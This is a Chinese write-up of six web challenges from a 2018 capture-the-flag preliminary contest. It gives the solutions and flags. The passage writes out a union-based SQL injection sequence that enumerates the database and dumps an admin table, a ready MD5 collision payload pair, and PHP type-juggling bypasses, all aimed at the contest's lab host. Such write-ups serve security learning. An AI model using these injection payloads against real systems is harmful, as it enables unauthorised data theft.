# 2018WEB安全测试秋季预选赛

[2018-10-28]()

### [](#1-Input "1. Input")1\. Input

> 题目地址：<http://114.55.36.69:8003/>  
> 进去后一个输入框，一个提交  
>   
> 但是这个按钮好像是无效的 点了也没有提交我们输入的内容

  
然后查看源代码，发现有一段JavaScript代码  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">function check(){</span><br><span class="line">        var flag = document.getElementById("flag").value;</span><br><span class="line">        var str = "d84d9657e5e5e" || 0;</span><br><span class="line">        var str = str + ("ad2ad3fe" &amp;&amp; 2);</span><br><span class="line">        var str = str + "a2da9494b8" + "ddea4fd4";</span><br><span class="line">        var str = str.split("").reverse().join("");</span><br><span class="line">        if (str == flag){</span><br><span class="line">            alert("恭喜你已经找到flag！");</span><br><span class="line">        }</span><br><span class="line">    }</span><br></pre></td></tr></tbody></table>

  
然后就好说了，把  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">var str = "d84d9657e5e5e" || 0;</span><br><span class="line">var str = str + ("ad2ad3fe" &amp;&amp; 2);</span><br><span class="line">var str = str + "a2da9494b8" + "ddea4fd4";</span><br><span class="line">var str = str.split("").reverse().join("");</span><br></pre></td></tr></tbody></table>

  
这4行代码粘贴到浏览器的控制台中，然后让浏览器弹出str的值就可以了  
  
  
献上flag: `4df4aedd8b4949ad2a2e5e5e7569d48d`

### [](#2-简单的MD5 "2.简单的MD5")2.简单的MD5

> 题目地址：<http://114.55.36.69:8004/>  
> 进去后直接查看页面源代码：`easy MD5 cracking <!--$_POST['data1']!=$_POST['data2']-->fail`  
> 里面有这个东西

分析之后发现，这个就是普通的PHP弱类型，用数组就行了  
  
`flag{401cf19d304e557349fecda18110c138}`

### [](#3-MD5 "3. MD5")3\. MD5

> 题目地址：<http://114.55.36.69:8006/>  
> 查看源代码有这句话：  
> 
> <table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">if((string)$_POST['data1']!==(string)$_POST['data2']&amp;&amp;md5($_POST['data1'])===md5($_POST['data2']))</span><br></pre></td></tr></tbody></table>
> 
>   
> 这个用的是MD5碰撞  
> 想学习的可以看这个博客：<https://blog.csdn.net/wy_97/article/details/79088218>  
> 这里直接给出payload:  
> 
> <table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">data1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2</span><br><span class="line">data2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2</span><br></pre></td></tr></tbody></table>
> 
>   
> 提交时需要用urlencode一下  
>   
> `flag{9bd1ee7355b58e53214adb9a37b4cb82}`

### [](#4-新闻搜索 "4.新闻搜索")4.新闻搜索

> 题目地址：<http://114.55.36.69:8010/>  
> 刚开始没思路，后来看到源代码里面有一段JavaScript代码  
> 
> <table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br></pre></td><td class="code"><pre><span class="line">function myFunction()</span><br><span class="line">	{</span><br><span class="line">		var x=document.getElementById("number").value;</span><br><span class="line">    var a=document.getElementById("word").value;</span><br><span class="line">    var b=a.replace(/[\ |\~|\`|\!|\@|\#|\$|\%|\^|\&amp;|\*|\(|\)|\-|\_|\+|\=|\||\\|\[|\]|\{|\}|\;|\:|\"|\'|\,|\&lt;|\.|\&gt;|\/|\?|\·|\！|\（|\）|\￥|\——|\……|\【|\】|\、|\；|\：|\‘|\“|\”|\’|\，|\。|\、|\《|\》|\？|\ ]/g,"");</span><br><span class="line">    if(a.length!=b.length)</span><br><span class="line">    {</span><br><span class="line">      alert("请输入正确字符。");</span><br><span class="line">      document.getElementById("number").value = '';</span><br><span class="line">      document.getElementById("word").value = '';</span><br><span class="line">    }</span><br><span class="line">    else if(isNaN(x))</span><br><span class="line">    {</span><br><span class="line">      alert("请输入数字。");</span><br><span class="line">      document.getElementById("number").value = '';</span><br><span class="line">    }</span><br><span class="line"></span><br><span class="line">  }</span><br></pre></td></tr></tbody></table>
> 
>   
> 许多字符被过滤掉了，猜测可能要用SQL注入，而它代码放到了前端，也就是说过滤只能从前端过滤，用hackbar注入它是检测不到的  
> 直接给出payload:  
>   
> 
> <table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">GET:http://114.55.36.69:8010/</span><br><span class="line">POST:</span><br><span class="line">	word=-1' union select 1,database(),2%23&amp;number=5</span><br><span class="line">	word=-1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='news'%23&amp;number=5</span><br><span class="line">	word=-1' union select 1,group_concat(column_name),2 from information_schema.columns where table_name='admin'%23&amp;number=5</span><br><span class="line">	word=-1' union select 1,group_concat(flag),2 from admin%23&amp;number=5</span><br></pre></td></tr></tbody></table>

```
flag{f98505d1d12f50a0bd9463e90876630}
```

### [](#5-Game "5.Game")5.Game

> 题目地址：<http://114.55.36.69:8011/>  
> emmmm 贪吃蛇挺好玩的

查看源代码  
  
两个链接，随便点一点  
在`game.js`中发现了点东西

  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (c^_^o)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');</span><br></pre></td></tr></tbody></table>

  
好长啊  
放到aaencode里面去  
给出解码网站：<https://tool.zcmzcm.org/aadecode>  
  
Flag\{660332922504a5f06dd871a7fe78ba9c\}

### [](#6-参数提交 "6.参数提交")6.参数提交

> 题目地址：<http://114.55.36.69:8012/>  
> 这个就没啥好说的了  
> POST提交参数就行了  
> flag=1111111111111111  
